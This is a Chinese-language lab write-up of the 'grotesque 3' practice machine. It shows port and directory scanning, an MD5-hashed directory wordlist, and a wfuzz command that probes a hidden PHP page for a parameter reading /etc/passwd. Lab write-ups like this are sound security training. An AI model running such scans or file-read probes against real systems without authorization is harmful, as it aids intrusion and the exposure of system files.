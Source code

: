 ```yaml
---
layout: post
title: grotesque 3
subtitle: grotesque 3
date: 2025-07-18 16:00
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
published: false
---
```

### 信息搜集

IP扫描

![image.png](https://img.ghostliner.top/mCSICN.png)

端口扫描

```shell
nmap -A -p- 192.168.163.142
```

![image.png](https://img.ghostliner.top/8D8uXo.png)

目录扫描，但未扫到任何东西

```shell
dirsearch -u http://192.168.163.142 -e* -i 200
nikto -h 192.168.163.142
dirb http://192.168.163.142
```

访问网站，发现链接

![image.png](https://img.ghostliner.top/8pFKYf.png)

访问链接： http://192.168.163.142/atlasg.jpg 发现一张图片

从图片中找有字符的地方

![image.png](https://img.ghostliner.top/cPcVDy.png)

有 `M` ，`D` 和5个 `X`，暗示MD5

使用atlasg、atlasg.jpg 和图片文件的MD5值尝试访问失败

生成MD5的目录字典

```shell
for i in $(cat /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt); do echo $i | md5sum >> md5.txt; done
```

vim删除多余字符

```
:%s/  -//g
```

```shell
dirsearch -w md5.txt -u http://192.168.163.142 -f php
```

![image.png](https://img.ghostliner.top/QMVN2d.png)

http://192.168.163.142/f66b22bf020334b04c7d0d3eb5010391.php

```shell
wfuzz -w /usr/share/wordlists/rockyou.txt -u http://192.168.163.142/f66b22bf020334b04c7d0d3eb5010391.php?FUZZ=/etc/passwd --hw 0
```